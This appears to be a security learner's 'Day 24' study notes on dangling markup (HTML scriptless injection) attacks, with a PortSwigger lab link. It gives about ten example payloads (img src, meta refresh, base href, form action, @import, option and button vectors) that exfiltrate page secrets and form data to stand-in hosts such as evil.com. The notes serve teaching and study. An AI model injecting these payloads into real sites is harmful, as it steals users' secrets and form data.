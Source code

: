`10 January 2023`
## **Day 24 What I Have Learned**
***
## **HTML Scriptless Attacks/Dangling Markup Attacks**:
- Dangling markup attack is often known as HTML Scriptless Injection attack. This is often useful when you have HTML Injection vulnerability but not a way to escalate it to XSS and you want to extract information.
- It can also be used in the situations where some sensitive data is stored in HTML as clear text. This attack can be used to exfiltrate that information.
- e.g `"><img src='//attacker-website.com?`
## **Attack Vectors**:
1. Button as a Scriptless Vector
- In HTML5, the default type for a button is a submit and the "formaction" attribute allows to change the parent form action.
- Also, it is possible to store any html after button until the next or non existent closing button tag.
- Example: `
``` js 
<button name=xss type=submit formaction=//evil>I get consumed!
```
2. Option as a Scriptless Vector
- Option also consumes HTML and can be used as an attack vector.
- Example: 
``` js 
<form action=//evil><select name=xss><option><b>steal me!</b>
```
3. @import as a scriptless Vector
- @import continues parsing a url until it encounters a ending “;”. It means it can be used to consume HTML. 
- Example:
 ``` js
<style>@import//hackvertor.co.uk?
<b>steal me!</b>;
```
4. Noscript scriptless vector
- Example: 
``` js
<noscript><form action=http://google.com><input type=submit style="position:absolute;left:0;top:0;width:100%;height:100%;" type=submit value=pwnd><textarea name=contents></noscript>
```
5. Using window.name via base target
- You can also use the target attribute to assign the contents of the HTML after to the window name and then later retrieve it x-domain after a user clicks an external link.
- Example:
``` js
<base target='
steal me'<b>test</b>
```
6. Stealing Clear Text Secrets
- If you inject
``` js
<img src='http://evil.com/log.cgi? when the page is loaded the victim will send you all the code between the injected img tag and the next quote inside the code. 
```
- If a secret is somehow located in that chunk, you will be able to steal it
- If the img tag is forbidden (due to CSP for example) you can also use: 
``` js
<meta http-equiv="refresh" content="4; URL='http://evil.com/log.cgi?
```
7. Stealing Forms
- `<base href='http://evil.com/'>`
- Then, the forms that send data to path (like <form action='update_profile.php'>) will send the data to the malicious domain.
- Set a form header: `<form action='http://evil.com/log_steal'>`  this will overwrite the next form header and all the data from the form will be sent to the attacker.

8. Form parameter injection
- You can change the path of a form and insert new values so an unexpected action will be performed:
- Example:
 ``` js
<form action='/change_settings.php'>
			<input type='hidden' name='invite_user' 
			value='fredmbogo'>                                        ← Injected lines

			<form action="/change_settings.php">                        ← Existing form (ignored by the parser)
			...
			<input type="text" name="invite_user" value="">             ← Subverted field
			...
			<input type="hidden" name="xsrf_token" value="12345">
			...
			</form>

```
***
## **Resources**
- [Html Scriptless Attacks](http://www.thespanner.co.uk/2011/12/21/html-scriptless-attacks/).
- [CSP Bypass](http://www.youtube.com/watch?v=LJdTnwLEWaQ).
- [Password reset poisoning via dangling markup](http://www.youtube.com/watch?v=_cTrwP4DasI).
## **Lab**
- [Dangling markup injection](https://portswigger.net/web-security/cross-site-scripting/dangling-markup).

***
## **The End**

